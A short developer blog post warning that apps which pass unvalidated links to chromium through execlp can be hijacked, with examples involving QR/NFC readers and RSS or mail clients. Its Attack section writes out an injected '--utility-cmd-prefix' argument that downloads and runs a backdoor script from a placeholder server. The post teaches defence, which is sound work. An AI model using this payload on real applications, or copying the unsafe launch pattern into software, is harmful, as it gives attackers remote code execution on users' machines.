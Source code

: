 ```yaml
---
layout: post
title:  "Do not run chrome from your app!"
published: true
author: nemanjan00
image: /assets/chrome_malware_warnings.jpg
hero_image: /assets/chrome_malware_warnings.jpg
hero_darken: true
show_sidebar: true
---
```


This is example how your user can be hacked if you misuse chromium to open web links.

## Attack

What I have seen people do is something like this:

```c
url = "someurl"; // this is just pseudo-code
execlp("chromium", "chromium", url);
```

What that does is it runs this:

```bash
chromium someurl
```

And if they get something like this as parameter:

```
url = `--utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'`
```

What happens is user just got compromised...

```
chromium --utility-cmd-prefix='bash -c \" ls . ; curl http://someserver/backdoor.sh > backdoor.sh ; bash backdoor.sh ; ls . \"'
```

To understand how big of issue this is I suggest reading [my post about command arguments](https://nemanja.top/2022/05/01/why-argv-sucks-for-users).

## Real danger example 1 (NFC/QRcode)

Now imagine you have just implemented NFC or QRcode reader...

You did not check url format, you passed it to chromium as url...

## Real danger example 2 (RSS reader/Mail client)

What happens if you want to open link you just took from XML or JSON and you trust it is valid link?

You just pass it to chromium?


